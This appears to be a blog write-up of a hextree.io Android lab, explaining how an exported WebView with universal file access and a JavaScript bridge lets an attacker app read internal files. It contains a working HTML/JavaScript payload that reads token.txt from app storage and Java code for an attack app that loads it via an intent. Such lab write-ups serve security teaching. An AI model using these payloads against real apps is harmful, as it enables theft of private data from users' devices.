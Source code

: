 ```yaml
---
layout: post
title: 'Exploiting WebView Vulnerabilities: Bypassing SOP to Access Internal App Files'
date: 2025-03-14 22:52 +0200
categories: Mobile
tags: Android Mobile
---
```

Have you ever imagined being able to steal internal files from an Android application, such as `.db` files or other sensitive data? In this article, I'll walk you through how it's done by solving a lab from [hextree.io](https://www.hextree.io/).

## Initial Analysis
First, I installed the target application on the Android Studio emulator and decompiled it using JADX to analyze its `AndroidManifest.xml` file. I quickly noticed a WebView activity that was marked as `exported="true"`
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*pHf6TNL8y3T6UM5yiNwczg.png)
To investigate further, I examined the activity’s **onCreate()** method.
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*Hr0eRjV2F-IaaAPn-qb_gg.png)

## Breaking Down the onCreate() Method
1. The app retrieves an extra string value `URL` using `getIntent()`.
2. If the value is `null`, it defaults to loading `https://www.hextree.io`.
3. It then configures WebView settings with the following:
```java
settings.setJavaScriptEnabled(true);
settings.setAllowFileAccessFromFileURLs(true);
settings.setAllowFileAccess(true);
settings.setAllowUniversalAccessFromFileURLs(true);
```
These settings are highly dangerous, especially:
- `setAllowUniversalAccessFromFileURLs(true)`, which allows WebView to load files from multiple sources, including `https://`, `content://`, and `file://` … etc
- 
4. This could enable attackers to read local files through a malicious HTML page, or gain **RCE**.
The app generates a random UUID and writes it to a file named `token.txt`.
5. It registers a **JavaScript Interface** called `"hextree"`, mapping it to a `JsObject` class.
6. Finally, it loads the provided `URL`.
## Examining the JavaScript Interface
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*M9jY8xfe8SSjD_Ua7srZNA.png)
The `JsObject` class contains an `authCallback()` function that:
- Accepts a `token` as an argument.
- Reads the `token.txt` file and compares its value.
- If the token matches, it triggers the `success()` method (which is our target).
- Otherwise, it does nothing.
## Crafting the Exploit
Since the application allows universal file access and provides a JavaScript interface, we can exploit it by loading an external URL with a **malicious JavaScript payload**.
### 1. The JavaScript Payload
The following script will steal the token from `token.txt` and pass it to the `authCallback()` function:
```html
<script>
  onload = () => {
    let x = new XMLHttpRequest();
    x.onload = () => hextree.authCallback(x.responseText.trim());
    x.open("GET", "file:///data/data/io.hextree.attacksurface/files/token.txt");
    x.send();
  };
</script>
```
**Explanation:**
- The script is executed on page load (`onload` event).
- It makes an XHR request to retrieve the contents of `token.txt`.
- Once loaded, it trims the response and sends it to `authCallback()`, triggering the success condition.

Save this payload as exploit.html inside the app’s internal storage: `file:///data/data/io.hextree.attacksurface/files/exploit.html`

### 2. Deploying the Attack
To launch the exploit, we need to create an **attack app** that sends an intent to the vulnerable WebView activity, instructing it to load our malicious HTML file.<br>
**The Exploit App Code:**
```java
 @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent();
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.webviews.Flag40WebViewsActivity");
        String exploitUrl = "file:///data/data/io.hextree.attacksurface/files/exploit.html";
        intent.putExtra("URL", exploitUrl);
        startActivity(intent);

    }
```
**How It Works:**
1. The app **targets the vulnerable WebView activity** by specifying its package and class name.
2. It sets `exploitUrl` to the path of our malicious HTML payload.
3. It **passes** this URL as an extra string (`URL`) and launches the activity.

Once the exploit app is launched, the vulnerable WebView loads our payload, reads `token.txt`, and successfully triggers `authCallback()`, granting us access to the **flag**.
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*DbHLZoKjkEFS_dPG17vXbQ.png)

This demonstrates a serious **WebView vulnerability** in Android apps, showing how insecure settings can be exploited to steal internal files.

**THANKS FOR READING ❤️**


